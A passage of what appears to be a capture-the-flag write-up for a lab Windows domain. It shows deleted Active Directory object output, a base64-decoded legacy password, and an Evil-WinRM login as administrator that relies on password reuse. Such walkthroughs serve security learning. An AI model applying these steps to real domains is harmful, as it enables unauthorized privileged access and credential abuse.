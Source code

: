     isDeleted                       : True
    LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
    lastLogoff                      : 0
    lastLogon                       : 0
    logonCount                      : 0
    Modified                        : 1/27/2020 3:24:34 AM
    modifyTimeStamp                 : 1/27/2020 3:24:34 AM
    msDS-LastKnownRDN               : TempAdmin
    Name                            : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
    ObjectCategory                  :
    ObjectClass                     : user
    ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
    objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
    primaryGroupID                  : 513
    ProtectedFromAccidentalDeletion : False
    pwdLastSet                      : 132245689883479503
    sAMAccountName                  : TempAdmin
    sDRightsEffective               : 0
    userAccountControl              : 66048
    userPrincipalName               : TempAdmin@cascade.local
    uSNChanged                      : 237705
    uSNCreated                      : 237695
    whenChanged                     : 1/27/2020 3:24:34 AM
    whenCreated                     : 1/27/2020 3:23:08 AM

We decode the base64 filed and found some password.

    :::text
    kali@kali:~$ echo -ne 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
    baCT3r1aN00dles

My first idea was to restore the object but it seems that this is not possible.

    :::text
    *Evil-WinRM* PS C:\Users\arksvc\Documents>  Get-ADObject -Filter 'samaccountname -eq "TempAdmin"' -IncludeDeletedObjects | Restore-ADObject
    Insufficient access rights to perform the operation
    At line:1 char:81
    + ... ccountname -eq "TempAdmin"' -IncludeDeletedObjects | Restore-ADObject
    +                                                          ~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (CN=TempAdmin\0A...ascade,DC=local:ADObject) [Restore-ADObject], ADException
        + FullyQualifiedErrorId : 0,Microsoft.ActiveDirectory.Management.Commands.RestoreADObject

Therefore I just tried to connect as `administrator` hoping for password reuse,
it worked and I was able to get the root flag..

    :::text
    kali@kali:~/tools/github/evil-winrm$ ruby ./evil-winrm.rb -i 10.10.10.182 -u administrator -pbaCT3r1aN00dles

    Evil-WinRM shell v1.8
